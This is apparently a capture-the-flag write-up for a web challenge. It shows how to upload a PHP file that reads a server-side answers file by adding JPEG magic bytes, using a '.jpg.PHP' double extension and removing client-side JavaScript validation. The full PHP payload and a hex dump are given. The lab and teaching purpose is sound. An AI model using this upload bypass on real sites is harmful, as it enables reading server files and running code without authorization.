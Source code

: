 # The Evil Assignment on Canvas

Oh no, when you're "chilling" with this CTF, your evil professor has given you an impossible assignment on Canvas, which dues tomorrow! The only way to pass his course is to pwn him! The show will never end! Let's go VinUni hackeerrrsss!

Challenge URL: http://ctflag.vhc.asia:13373/

## Techniques

PHP, JavaScript, file signature, client-side validation

## Solution

You are given a free hint that says.

```
You may need to search about "File Upload Vulnerability".

So basically, the idea behind the exploitation of this challenge is to construct a .php file that reads the Final Exam Answers. Then, we upload that php file on the website and try to execute it.
```

Look at the website. We are given another hint that the flag file is at `/var/www/FinalExamAnswers.txt`.

![canvas 1](canvas-1.png)

Just as hinted, we are asked to upload a PHP file to extract the flag at that directory. But the website forces us to upload JPEG images only instead.

Now let's play around with this website for a little bit. Upload [this](yuu.jpg) and see it does nothing! What a shame that this website puts such a small size limit.

Ok, how about [this one](kek.jpg)? 30KB should be small enough.

![canvas 2](canvas-2.png)

And yes, successfully submitted. It shows my GitHub avatar!

The requirements should be clear now:
- Upload a small JPEG file of less than 30KB (I suppose).
- Somehow inject the PHP code to show the flag.

Ok, so how do computers recognize a file format? Besides file name extensions, there is another thing called [magic number](https://en.wikipedia.org/wiki/File_format#Magic_number) in Unix systems, which is the first identifier bytes in a file. For JPEG images, their magic number is `FF D8 FF`, which is the first 3 bytes in hexadecimal.

Now for the PHP code. We are given the directory of the flag file, and then we need to build a PHP page to display it. Below is my code.

```php
<?php $fn = "/var/www/FinalExamAnswers.txt";
$myfile = fopen($fn, "r");
$content = fread($myfile,filesize($fn));
$lines = explode("\n", $content);
fclose($myfile);
?>
<html>
    <head>
    <title>Flag 700 ez</title>
    </head>
    <body>
        <h1><?php print_r($lines) ?></h1>
    </body>
</html>
```

Save it into a PHP file. Then inject the magic bytes `FF D8 FF` by using a Hex editor program. Play around with it, and the [hex dump](hexdump.txt) of the resulting file should be like this. Notice the first 3 bytes `ff d8 ff` in the dump.

```
00000000  ff d8 ff 3c 3f 70 68 70  20 24 66 6e 20 3d 20 22  |...<?php $fn = "|
00000010  2f 76 61 72 2f 77 77 77  2f 46 69 6e 61 6c 45 78  |/var/www/FinalEx|
00000020  61 6d 41 6e 73 77 65 72  73 2e 74 78 74 22 3b 0d  |amAnswers.txt";.|
00000030  0a 24 6d 79 66 69 6c 65  20 3d 20 66 6f 70 65 6e  |.$myfile = fopen|
00000040  28 24 66 6e 2c 20 22 72  22 29 3b 0d 0a 24 63 6f  |($fn, "r");..$co|
00000050  6e 74 65 6e 74 20 3d 20  66 72 65 61 64 28 24 6d  |ntent = fread($m|
00000060  79 66 69 6c 65 2c 66 69  6c 65 73 69 7a 65 28 24  |yfile,filesize($|
00000070  66 6e 29 29 3b 0d 0a 24  6c 69 6e 65 73 20 3d 20  |fn));..$lines = |
00000080  65 78 70 6c 6f 64 65 28  22 5c 6e 22 2c 20 24 63  |explode("\n", $c|
00000090  6f 6e 74 65 6e 74 29 3b  0d 0a 66 63 6c 6f 73 65  |ontent);..fclose|
000000a0  28 24 6d 79 66 69 6c 65  29 3b 0d 0a 3f 3e 0d 0a  |($myfile);..?>..|
000000b0  3c 68 74 6d 6c 3e 0d 0a  20 20 20 20 3c 68 65 61  |<html>..    <hea|
000000c0  64 3e 0d 0a 20 20 20 20  3c 74 69 74 6c 65 3e 46  |d>..    <title>F|
000000d0  6c 61 67 20 37 30 30 20  65 7a 3c 2f 74 69 74 6c  |lag 700 ez</titl|
000000e0  65 3e 0d 0a 20 20 20 20  3c 2f 68 65 61 64 3e 0d  |e>..    </head>.|
000000f0  0a 20 20 20 20 3c 62 6f  64 79 3e 0d 0a 20 20 20  |.    <body>..   |
00000100  20 20 20 20 20 3c 68 31  3e 3c 3f 70 68 70 20 70  |     <h1><?php p|
00000110  72 69 6e 74 5f 72 28 24  6c 69 6e 65 73 29 20 3f  |rint_r($lines) ?|
00000120  3e 3c 2f 68 31 3e 0d 0a  20 20 20 20 3c 2f 62 6f  |></h1>..    </bo|
00000130  64 79 3e 0d 0a 3c 2f 68  74 6d 6c 3e              |dy>..</html>|
0000013c
```

Change the file extension to `.jpg` in case you forget it, and upload again to the website.

![canvas 3](canvas-3.png)

But still, it doesn't seem to work. How about changing the file name to `something.jpg.PHP`?

Of course the website won't allow uploading any files except JPEG ones. But we can work around this problem by using F12 Tools!

Find the source code of the website, and we can see there is a file `filtr.js` that does the client-side validation of the uploading file.

```js
window.onload = function(){
	var upload = document.getElementById("fileSelect");
	var errorMsg = document.getElementById("errorMsg");
	var uploadMsg = document.getElementById("uploadtext");
	upload.value="";
	upload.addEventListener("change",function(event){
		var file = this.files[0];
		if (file.type != "image/jpeg"){
			upload.value = "";
			uploadMsg.style = "display : none;";
			errorMsg.style="display : block;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			uploadMsg.style = "display : block;";
			errorMsg.style="display : none;";
			success();
		}
	});
};
```

Basically it tells that if a file extension is not of `image/jpeg` type then the form does not repond. Just delete that part of code and the website will allow us to upload PHP files.

It works now!

![canvas 4](canvas-4.png)

We have actually uploaded a PHP file instead of a JPEG one. The problem is that the website has done "magic number" verification on the server-side, but it only checks whether `jpg` or `jpeg` is IN the filename, but not the actual file extension, and that's why we can find the flag in this way. 

If the server also checks for file extension, the challenge will become much more difficult and we may need to find any misconfiguration of the server to run PHP code in JPG file.

You can search for this keyword: `inject PHP into jpg`. I have uploaded my file [here](payload.jpg.php). You can refer to it.

## The Flag
```
VHC2022{l3v3L_4_c0d3_0f_c0ndUcT_v10l4t10n_f0R_pWn1nG_uR_pR0f}
```

Anyway, don't try to hack into [VinUni Canvas](https://vinuni.instructure.com/) for real unless you want a Level 4 Code of Conduct violation.
